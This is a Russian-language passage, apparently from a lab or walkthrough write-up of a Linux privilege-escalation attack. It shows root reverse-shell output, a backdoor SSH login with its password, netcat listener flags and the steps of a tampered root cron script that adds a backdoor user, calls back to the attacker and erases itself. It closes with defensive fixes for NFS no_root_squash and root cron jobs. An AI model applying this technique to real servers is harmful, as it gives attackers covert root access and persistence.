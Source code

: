 **Результат выполнения скрипта:**
```
Connection received from 192.168.1.100 45678
bash: cannot set terminal process group (1234): Inappropriate ioctl for device
bash: no job control in this shell
root@server:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
root@server:/scripts# whoami
root
```

**Альтернативный доступ:**
```bash
ssh backdoor@192.168.1.100
Password: P@ssw0rd
```

**Пояснения:**
1. `netcat` слушает порт 4444
   - `-n`: Не преобразовывать доменные имена
   - `-v`: Подробный вывод
   - `-l`: Режим прослушивания
   - `-p`: Указание порта

**Результат на сервере:**
1. Cron запускает `daily_backup.sh` от root (ночью)
2. Скрипт добавляет пользователя `backdoor` в `/etc/passwd`
3. Устанавливается обратное TCP-соединение с атакующим
4. Оригинальный скрипт выполняется для маскировки
5. Вредоносный скрипт самоликвидируется

---

### Технический анализ атаки

1. **Неправильная настройка NFS**
    ```bash
    # Опасная конфигурация:
    /home *(rw,sync,no_root_squash)
    
    # Безопасная альтернатива:
    /home 192.168.1.0/24(rw,sync,root_squash,all_squash)
    ```

2. **Выполнение скриптов от root**
    ```bash
    # В /etc/crontab:
    0 3 * * * root /scripts/daily_backup.sh  # Опасность!
    
    # Безопаснее:
    0 3 * * * backup-user /scripts/daily_backup.sh
    ```
